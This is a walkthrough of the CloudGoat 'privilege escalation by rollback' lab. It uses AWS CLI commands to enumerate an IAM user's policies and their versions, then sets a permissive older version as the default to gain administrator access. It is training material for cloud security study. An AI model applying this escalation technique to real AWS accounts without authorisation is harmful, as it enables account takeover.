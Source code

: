 ### 1. Initial Set-Up 
After launching the scenario, you will be provided with an Access Key and Secret. The first step is setting up a profile with the AWS CLI using these credentials.

```bash
aws configure --profile cloudgoat

export AWS_PROFILE=cloudgoat

aws sts get-caller-identity
# "Arn": "arn:aws:iam::0123456789:user/raynor-iam_privesc_by_rollback_cgidtm8l3zv490"
```

The ARN contains the username in the after `:user/`, it will be unique in each deployment.
I'll export it as an environment variable to make the cheat sheet clearer. `export IAM_USERNAME=raynor-iam_privesc_by_rollback_cgidtm8l3zv490`

### 2. Enumeration
One of the first steps after gaining access to an IAM User is to enumerate the user's privileges in the environment. We can do that by listing the policies attached to the IAM User. 

- The first command - `list-user-policies` - are policies embedded directly into the user's IAM identity. 

- The second command - `list-attached-user-policies` - are separate, standalone IAM policies - either AWS managed or customer managed policies - that are attached to the user. 

```bash
aws iam list-user-policies --user-name $IAM_USERNAME
# None

aws iam list-attached-user-policies --user-name $IAM_USERNAME
# "PolicyName": "cg-raynor-policy-iam_privesc_by_rollback_cgidtm8l3zv490"
# "PolicyArn": "arn:aws:iam::0123456789:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidtm8l3zv490"
```
Rather than typing out this policy each time, it can be helpful to export it as another enviornmental varible. 
```bash
export IAM_POLICY_ARN=arn:aws:iam::0123456789:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidtm8l3zv490`
```

In AWS IAM, each policy can have multiple versions - up to five - where only one version is set as the 'default" (active) version. Whenever you edit a policy, IAM creates a new version, leaving older versions saved in the background. 

Older, non-default versions may grant privileges that are no longer visible in the default version. If an attacker can switch the default to a more permissive version, they could elevate their access. 

```bash
aws iam list-policy-versions --policy-arn $IAM_POLICY_ARN
# Shows five versions

aws iam get-policy-version --policy-arn $IAM_POLICY_ARN --version-id v1
# v1 is the default version, the permissions currently granted to the user
```

The policy below is the v1 version, it grants "read" access (list & get) as well as the power to switch between versions of policies.

```json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "iam:Get*",
                        "iam:List*",
                        "iam:SetDefaultPolicyVersion"
                    ],
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v1",
        "IsDefaultVersion": true
    }
}
```

Looking through the different policy versions `v3` has the following statement.

```json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": "*",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v3",
        "IsDefaultVersion": false
    }
}
```

Breaking this apart it grants all actions (`"Action": "*"`) to all resources. Since the current policy version grants the ability to change versions let switch to use this.

```bash
aws iam set-default-policy-version --policy-arn $IAM_POLICY_ARN --version-id v3
```

We now have **administrative permissions** and have completed the CloudGoat scenario!